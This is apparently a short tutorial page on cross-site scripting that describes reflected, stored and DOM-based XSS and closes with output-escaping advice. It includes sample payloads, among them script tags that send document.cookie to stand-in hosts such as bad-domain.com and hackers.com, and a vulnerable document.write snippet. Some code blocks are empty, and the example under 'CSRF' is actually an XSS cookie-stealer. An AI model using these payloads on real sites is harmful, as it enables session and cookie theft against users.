



# Cross-site Scripting (XSS)

XSS is a vulnerability which when presentin websites or web applications, allows malicious users (Hackers) to insert their client side code (normally JavaScript) in those web pages. When this malicious code along with the original webpage gets displayed in the web client (browsers like IE, Mozilla etc), allows Hackers to gain greater access of that page. 

Some examples:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
```
```

```
```

```
```

```
```
<SCRIPT>alert("XSS")</SCRIPT>">
```
```

```
```

```

### Type of XSS attacks:

#### Non-persistent

When XSS code only gets displayed in the next page to the same user and not gets saved into persistent storage like database. This type of attack is less vulnerable, because Hacker can see only their own cookies and can make modifications in their own current opened pages. The risk with these kinds of XSS holes is that it opens way for Cross Site Request Forgery CSRF. CSRF allows a hacker to place some links.

##### CSRF

Is a type of malicious exploit of a website whereby unauthorized
commands are transmitted from a user that the website trusts. This
can be done by placing some hidden links in some bad website. 

Example:

```
document.location=‘http://bad-domain.com/store_data?cookie=‘ + document.cookie;</script>
```



#### Persistent

In persistent type of XSS attack, XSS code gets saved into persistent storage like database with other data and then it is visible to other users also. One example of this kind of attacks is possible blog websites, where hacker can add their XSS code along with the comment text and if no validation or filtering is present on the server, XSS code can be successfully saved into the database. After this if anyone (other users) open the page into their browsers, XSS code can execute and can perform a variety of harmful actions. This type of attack is more vulnerable, because Hacker can steal cookies and can make modifications in the page. The risk with these kinds of attacks is any third party hacker can use this vulnerability to perform some actions on behalf of other users.

Example:
```
abc<script>window.location = "http://www.hackers.com?yid=" + document.cookie;</script>
```



#### Reflected Cross-Site Scripting

- Much like a CSRF attack, exploiting a Reflected XSS vulnerability usually relies on an attacker tricking their victim into clicking a malicious link which sends the victim to the vulnerable site along with a malicious payload.
- A notable distinction between the stored XSS vulnerabilities more commonly found and reflected XSS vulnerabilities, is that the malicious scripts that are used as part of the exploit are not actually stored anywhere in the database with reflected XSS vulnerabilities.
- Rather, the malicious scripts are reflected and executed once during the exploit.
- As with Stored XSS attacks, the malicious payload will be executed in the victim’s browser.
- However, with reflected XSS, the vulnerable site would immediately output (reflect) the malicious JavaScript payload, which would be executed a single time in the victim’s browser instead of being stored in the database for later execution.

### DOM (Document Object Model) Based

The Document Object Model (DOM) is a cross-platform and language-independent application programming interface that treats an HTML, XHTML, or XML document as a tree structure wherein each node is an object representing a part of the document.



- DOM Based XSS (or type-0 XSS) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner.
- This is in contrast to other XSS attacks (stored or reflected), wherein the attack payload is placed in the response page (due to a server side flaw).

Example:
```
var pos = document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
```

### Protection

Escaping output at server:

- #1 - HTML Escape before inserting into element content
- #2 - Attribute Escape before inserting into attributes
- #3 - JavaScript Escape before inserting into JavaScript data
- values
- #4 - CSS Escape before inserting into style property values
- #5 - URL Escape before inserting into URL attributes